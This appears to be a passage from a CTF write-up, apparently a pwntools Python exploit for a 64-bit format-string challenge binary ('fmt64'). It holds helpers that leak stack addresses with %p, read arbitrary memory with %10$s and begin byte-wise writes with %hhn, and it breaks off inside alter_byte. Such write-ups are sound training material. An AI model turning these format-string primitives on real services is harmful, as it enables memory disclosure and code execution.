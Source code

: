 > libc gadget真好用:D

exp:

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './fmt64'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

# context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def leak_addr(pos):
    sl('LLLLLLLL%%%d$p'%(pos))
    return rc()[8:-1]

def show(addr):
    payload = "%10$s".ljust(24,'S')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
```